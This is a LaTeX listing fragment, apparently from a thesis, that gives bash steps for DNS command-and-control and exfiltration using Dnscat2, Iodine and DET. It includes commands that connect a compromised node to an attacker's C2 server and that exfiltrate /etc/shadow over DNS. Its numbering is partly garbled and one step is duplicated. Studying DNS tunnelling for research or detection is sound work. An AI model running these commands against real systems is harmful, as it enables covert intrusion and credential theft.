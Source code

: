 \documentclass [11pt, proquest] {uwthesis}[2020/02/24]
\begin{document}
\begin{lstlisting}[language=bash,caption={Steps to use Dnscat2 for Dns C2 with DNS port obfuscation layered random UDP port},label={lst:dnscat2-steps-port-obfuscation}]
# 1. Start Dnscat2 C2 server on attacker node with port obfuscation, DNS protocol itself tunnelled over random UDP port with internally tunnelling any protocol payload
sudo ruby dnscat2.rb --dns 'host=<attacker_node>,port=<dns_overlay_udp_port>,domain=<c2_domain>'
# 2. Connect to dnscat c2 server from compromised node in data plan
./dnscat --dns server=<attacker_node>=<dns_overlay_udp_port>,domain=dnscat.strive.io --secret=<c2_session_secret>
# 6 carry all the c2 attacks once compromised node is connected to C2 server.
\end{lstlisting}


\subsubsection{Iodine}
Iodine documentation for building the Iodine tunnel server server and client can be found on official documentation page at \href{https://github.com/yarrick/iodine}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use Iodine for Dns tunnelling using kernel encapsulation ppp TUN/TAP links},label={lst:iodine-steps}]
# 1. Start iodine tunneling server 
sudo iodined -f -P <password> <TUN/TAP_overlay_CIDR> <tunnel_domain>
# 2. Verify the required TUN/TAP pointtopoint netdev link created, defaults to dns0 
ip addr show dev dns0 
# 3. On compromised node in data plane start the iodine client 
sudo iodine -P <password> -f  -r <tunnel_server> <tunnel_domain>
# 4 Verify the required TUN/TAP pointtopoint netdev link created in CIDR range default to <TUN/TAP_overlay_CIDR>/24
ip addr show dev dns0
# Tunnel any protocol payload through the compromised node encpasulated traffic passed through PPP TUN/TAP links on both systems.
\end{lstlisting}

\subsubsection{DET}
DET documentation for building the Iodine Tunnel Server Server and Client can be found on the official documentation page at \href{https://github.com/sensepost/DET}{Github}
\begin{lstlisting}[language=bash,caption={Steps to use DET for raw DNS exfiltration},label={lst:det-steps}]
# 1. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
# 2. Start the DET server
sudo python det.py -L -c ./config.json -p dns 
# 3. Configure the DNS module in config.json in DET for raw exfiltration, with any domain generated via DGA, and IP pointing to the DNS server.
python det.py -c ./config.json -f /etc/shadow
3 4. restart the script and continue to exfiltrate files via raw DNS exfiltration. 
\end{lstlisting}
\end{document}
